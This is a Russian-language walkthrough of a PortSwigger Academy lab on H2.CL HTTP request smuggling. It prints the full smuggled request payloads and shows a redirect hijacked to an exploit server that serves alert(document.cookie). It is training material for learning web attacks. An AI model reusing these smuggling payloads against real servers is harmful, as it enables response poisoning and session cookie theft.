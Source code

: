Перейдем на уязвимый ресурс

найдем запрос на корневую страницу и отправим ее в `Repeater`
сконфигурируем запрос 
```
POST / HTTP/2
Host: 0a19003803f69a0f80661c9f009e0016.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /ashjifbasuifbasfbnuaisbfuiabsf HTTP/1.1
X-ignore: x
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/1.png)

и отправим второй в догонку
```
GET /resources/js/analyticsFetcher.js HTTP/2
Host: 0a19003803f69a0f80661c9f009e0016.web-security-academy.net
Cookie: session=kA4kBIRQr16nqpdOfSbQ9tG4XoBqnppb
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a19003803f69a0f80661c9f009e0016.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```



и в ответ получим 404 Not Found

Это все потому, что прошлый запрос у нас отобразится для приложения как 
```
POST / HTTP/2
Host: 0a19003803f69a0f80661c9f009e0016.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /ashjifbasuifbasfbnuaisbfuiabsf HTTP/1.1
X-ignore: xGET /resources/js/analyticsFetcher.js HTTP/2
Host: 0a19003803f69a0f80661c9f009e0016.web-security-academy.net
Cookie: session=kA4kBIRQr16nqpdOfSbQ9tG4XoBqnppb
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a19003803f69a0f80661c9f009e0016.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/2.png)

Далее найдем обращение к рандомному .js файлу внутри, и изменим его на несуществущий путь и увидим, что происходит редирект 

```
GET /resources/js/ 
```
и в ответ получим
`Location: https://0a19003803f69a0f80661c9f009e0016.web-security-academy.net/resources/js/HTTP/2/`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/3.png)

Причем если мы изменим host на example.com
```
GET /resources/js HTTP/2
Host: example.com
 ```
то мы получим 421 ошибку
```
HTTP/2 421 Misdirected Request
Content-Length: 12

Invalid host
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/4.png)

Идея состоит в том, чтобы перенаправить на наш эксплойт сервер при обращении к файлу

Перейдем в Exploit server и сконфигурируем

`exploit-0a570096037a9ad980431b3c018300e3.exploit-server.net/esources/js`

`/esources/js`
`alert(document.cookie)`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/5.png)

Изменим наш изначальный запрос на 
```
POST / HTTP/2
Host: 0a19003803f69a0f80661c9f009e0016.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources/js HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3


x=
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/6.png)

и вторым запросом отправим обычный запрос на корневую страницу

и увидим желанный редирект на `https://example.com/resources/js/`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/7.png)

Им и воспользуемся

```
POST / HTTP/2
Host: 0a19003803f69a0f80661c9f009e0016.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
GET /resources/js HTTP/1.1
Host: exploit-0a570096037a9ad980431b3c018300e3.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```
я загнал это все в `интрудер`, прождал минут 20 пока все выполнится и получил уведомление об успешно сделанной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/8.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/9.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/10.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/12.%20H2.CL%20request%20smuggling/pics%20for%20walkthrough/11.png)
